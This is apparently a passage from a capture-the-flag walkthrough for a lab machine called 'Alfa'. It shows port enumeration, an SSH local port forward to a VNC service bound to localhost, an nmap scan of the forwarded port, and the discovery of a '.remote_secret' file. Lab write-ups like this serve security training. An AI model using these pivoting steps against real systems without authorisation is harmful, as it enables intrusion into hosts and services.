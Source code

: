 
```console
thomas@Alfa:~$ ss -antl                                                                                           
State                 Recv-Q                Send-Q                 Local Address:Port                  Peer Address:Port
LISTEN                0                     128                          0.0.0.0:65111                      0.0.0.0:*
LISTEN                0                     50                           0.0.0.0:445                        0.0.0.0:*
LISTEN                0                     50                           0.0.0.0:139                        0.0.0.0:*
LISTEN                0                     5                          127.0.0.1:5901                       0.0.0.0:*
LISTEN                0                     32                                 *:21                               *:*
LISTEN                0                     128                             [::]:65111                         [::]:*
LISTEN                0                     50                              [::]:445                           [::]:*
LISTEN                0                     50                              [::]:139                           [::]:*
LISTEN                0                     5                              [::1]:5901                          [::]:*
LISTEN                0                     128                                *:80                               *:*
```

Local Port Forwarding allow me to connect from the local machine to another server securely, so all data sent to port 4444 on attacking machine is forwarded to port 5901 on target host.

```console
root@kali:~$ ssh -L 127.0.0.1:4444:127.0.0.1:5901 -l thomas 192.168.179.167 -p 65111 -N
thomas@192.168.179.167's password:
```

Locally we can check that port 4444 is listening.

```console
root@kali:~$ ss -antl | grep 4444
LISTEN 0      128        127.0.0.1:4444      0.0.0.0:* 
```

Service enumeration and script scanning was performed locally on port 4444 to detect which service is running on it.

```console
root@kali:~$ nmap -sV -sC -p4444 127.0.0.1
...
PORT     STATE SERVICE VERSION
4444/tcp open  vnc     VNC (protocol 3.8)
```

In the previous result we can see that the VNC service is running, also in the home directory of Thomas the **.remote_secret** file was found.

```console
thomas@Alfa:~$ ls -la   
...
-rwxrwxrwx 1 root   root     16 dic 17  2020 .remote_secret 
...
```
